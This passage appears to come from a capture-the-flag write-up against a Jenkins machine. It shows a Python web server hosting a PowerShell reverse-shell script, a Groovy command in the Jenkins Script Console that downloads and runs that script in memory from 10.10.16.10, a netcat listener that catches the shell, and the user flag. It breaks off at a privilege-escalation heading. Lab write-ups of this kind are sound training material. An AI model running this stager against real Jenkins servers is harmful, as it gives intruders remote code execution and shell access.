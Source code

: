 3. **Host the Script:** I started a Python web server to host the modified script.
    
    ```bash
       python3 -m http.server 80
    ```
    
4. **Execute the Stager:** I used the Jenkins Script Console to download and execute the PowerShell script in memory.
    
    ```groovy
        cmd = """powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.10:80/Invoke-PowerShellTcp.ps1')""""
        println cmd.execute().text
    ```
   
5. **Catch the Shell:** I started a Netcat listener to catch the incoming connection.
    
    ```bash
        nc -lvnp 8001
    ```

![](images/2025-02-09_4.png)

### 3.3 User Flag
The user flag was located in `kohsuke`'s desktop directory.
```bash
e3232272596fb47950d59c4cf1e7066a
```

## 4. Privilege Escalation

